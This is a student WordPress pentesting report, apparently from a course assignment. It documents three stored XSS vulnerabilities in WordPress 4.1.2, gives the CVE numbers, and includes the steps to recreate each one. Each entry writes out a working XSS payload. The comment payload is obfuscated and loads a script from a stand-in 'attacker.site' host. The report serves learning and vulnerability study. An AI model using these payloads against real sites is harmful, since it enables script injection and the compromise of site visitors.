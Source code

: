# Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting CVE-2015-5622
  - [X] Summary: A stored XSS vulnerability in WordPress allows an user with the posting capability to compromise the website.
    - Vulnerability types: XSS
    - Tested in version: 4.1.2
    - Fixed in version: 4.2.3
  - [X] GIF Walkthrough: 
  - <img src='http://i.imgur.com/HOp9TBq.gif' title='XSS1' width='' alt='XSS1' />
  - [X] Steps to recreate: Log in as a user who can post. Then create a post with this string:
  -     "<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>"
  -     Then view the post.
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/formatting.php)
1. (Required) Authenticated Shortcode Tags Cross-Site Scripting CVE-2015-5714
  - [X] Summary: Allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags.
    - Vulnerability types: XSS
    - Tested in version: 4.1.2
    - Fixed in version: 4.3.1
  - [X] GIF Walkthrough:
  - <img src='http://i.imgur.com/W8qLVaF.gif' title='XSS2' width='' alt='XSS2' />
  - [X] Steps to recreate: Log in as a user who can edit pots. Then edit a post with the string:
  -     "TEST!!![caption width="1" caption='<a href="' ">]</a><a>xxxxxx</a>"
  -     Then go view the post and mouseover the link.
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/shortcodes.php)
1. (Required) Unauthenticated Stored Cross-Site Scripting CVE-2015-3440
  - [X] Summary: An unauthenticated attacker can inject JavaScript in WordPress comments. The script is triggered when the comment is viewed.
    - Vulnerability types: XSS
    - Tested in version: 4.1.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: 
  - <img src='http://i.imgur.com/dlzgOLj.gif' title='XSS3' width='' alt='XSS3' />
  - [X] Steps to recreate: Comment on a post with the following string
  - "<a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAA...[64Kb]...A'></a> "
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/wp-db.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2017] [Jason Shen]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
